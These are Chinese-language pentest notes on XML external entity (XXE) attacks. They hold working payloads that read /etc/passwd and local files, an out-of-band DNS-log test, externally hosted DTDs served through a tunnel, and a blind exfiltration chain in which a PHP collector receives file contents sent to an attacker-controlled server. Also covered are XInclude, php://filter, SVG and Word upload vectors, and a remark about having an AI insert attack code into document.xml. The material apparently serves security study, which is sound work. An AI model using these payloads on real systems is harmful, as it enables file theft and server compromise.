# Web攻防-XML&XXE&无回显带外&SSRF元数据&DTD实体&OOB盲注&文件拓展&复盘

-==XXE黑盒发现==：
两类：
-数据包的测试
-功能点的测试
1、获取得到Content-Type或数据类型为xml时，尝试xml语言payload进行测试
2、==不管获取的Content-Type类型或数据传输类型，均可尝试修改后提交测试xxe==
3、XXE不仅在数据传输上可能存在漏洞，同样在文件上传引用插件解析或预览也会造成文件中的XXE Payload被执行
-XXE白盒发现：
1、可通过应用功能追踪代码定位审计
2、可通过脚本特定函数搜索定位审计
3、可通过伪协议玩法绕过相关修复等

## 读取文件



输入密码抓包    ==XML特征会在Content-Type标明XML==  或者 ==抓包出现<?xml>格式数据==



例子1 创建一个名为xxe 利用读文件协议读取 etc/passwd

然后调用 xxe

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
&xxe;
```



修改成攻击代码   读出d盘1.txt文件   

```
<?xml version="1.0"?>
<!DOCTYPE user [
<!ENTITY test SYSTEM  "file:///d:/1.txt">]>

<user><username>&test;</username><password>111</password></user>

```



## 带外测试

rv4pa3.dnslog.cn



```
<?xml version="1.0" ?>
<!DOCTYPE test [
  <!ENTITY % file SYSTEM "http://rv4pa3.dnslog.cn">
  %file;
]>
<user><username>&send;</username><password>xiaodi</password></user>
```



## 外部引用实体dtd

创建2.dtd，放入服务器

```
.\cloudflared.exe tunnel --url http://127.0.0.1:80 --http-host-header www.1234.com
```

```
<!ENTITY send SYSTEM "file:///d:/1.txt">
```



抓包修改

```
<?xml version="1.0" ?>
<!DOCTYPE test [
  <!ENTITY % file SYSTEM "https://apartments-intl-average-considered.trycloudflare.com/2.dtd">
  %file;
]>
<user><username>&send;</username><password>123</password></user>
```




成功回显



## 无回显读文件

准备get.php,内容如下 上传到服务器

```
<?php
$data=$_GET['file'];
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>
```

准备2.dtd  上传到服务器

```
<!ENTITY % all "<!ENTITY send SYSTEM '服务器地址/get.php?file=%file;'>">
```

抓包 修改 repeater ->send

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///d:/1.txt">
<!ENTITY % remote SYSTEM "服务器地址/get.php">
%remote;
%all;
]>

<root>&send;</root>
```




 repeater ->send

在服务下生成file.txt 内容为 1.txt内容

## xinclude利用

一些应用程序接收客户端提交的数据，在服务器端将其嵌入到XML文档中，然后解析该文档，所以利用xinclude嵌套进去执行

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

这里并不能根据数据包判断是xml ，所以要黑盒测试





## 简单案例 不是xml改成xml测试

[web.jarvisoj.com:9882](http://web.jarvisoj.com:9882/)



抓包

python搭建的网站判断可能是linux系统



修改

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```






## 不能读空格 伪协议读法

```
php://filter/read=convert.base64-encode/resource=文件名
```

## 文件上传svg xml漏洞



准备好含有代码svg  让他读取d盘下1.txt



成功预览到内容 ==如果没回显利用上面的dtd方法==



## 文件上传word xml漏洞

要根据该网站的功能来判断修改哪个.xml 这里以document.xml举例 

一个word文件如果含有模板 会在该目录下生成一个document.xml 该文件是word内容的配置文件会在读取word内容中自动执行



借助ai大模型，==让ai添加工具代码到document.xml==替换word里面的document.xml




